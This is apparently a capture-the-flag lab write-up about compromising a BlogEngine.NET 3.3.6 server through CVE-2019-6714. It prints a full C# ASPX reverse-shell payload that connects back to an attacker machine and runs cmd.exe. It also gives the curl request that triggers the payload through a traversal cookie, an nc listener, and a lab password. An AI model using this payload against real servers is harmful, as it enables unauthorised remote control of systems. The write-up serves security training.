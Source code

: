 
## Getting a new password from the Web Server

With the found credentials, you are able to log in as user guest on `http://MACHINE IP>/blog/Account/login.aspx?ReturnURL=/blog/admin/`.

![[image.png|317x423]]

After logging in you'll see

![[Screenshot from 2025-09-15 19-47-59.png]]

## Draft page

Go to `Draft pages` and read the page.

![[Screenshot from 2025-09-15 19-50-56.png]]

There's a pasword `Excal1burP@ss1337`.

## Accessing the Machine

### BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution

> [!Note]
>  CVE-2019-6714
>  Path traversal vulnerability leading to remote code execution.  This vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This  is caused by an unchecked "theme" parameter that is used to override  the default theme for rendering blog pages.  The vulnerable code can   be seen in this file:  /Custom/Controls/PostList.ascx.cs.
 
More info: https://www.exploit-db.com/exploits/46353

#### Uploading the exploit

#Attacking_machine 
- Create a file called `PostView.ascx`with the following content.
```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<font color="#ff0000"><ATTACKING MACHINE></font>", 445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

> [!Note]
> Change in the previous code the ATTACKING MACHINE IP. 
> Use port 445.



#Web_edito
- On the previous message where you got the password, there's an File Manager Icon. ![[Screenshot 2025-09-15 at 14-08-13 Excelibur (guest).png]]

- Enter and upload the `PostView.ascx` file.

![[Screenshot from 2025-09-15 20-11-22.png]]


#### Getting a reverse shell

#Attacking_machine 
- Open a netcat listener on port 445.
```
nc -lnvp 445
```


- Run the following code to connect to the listener.
```
curl -v --cookie "theme=../../App_Data/files/" http://<MACHINE IP>/blog/
```

![[Screenshot from 2025-09-16 12-45-33.png]]


#### Users

#Reverse_shell
- Run the following code to know the user and its privileges.

```
whoami
whoami /priv
```

![[Screenshot from 2025-09-16 20-28-09.png]]


![[Screenshot from 2025-09-16 20-21-37.png]]


- Run the following code to see whether there are more users or not.
```
cd c:\users && dir
```

![[Screenshot from 2025-09-16 20-33-09.png]]

There's another user called `kingarthy`.

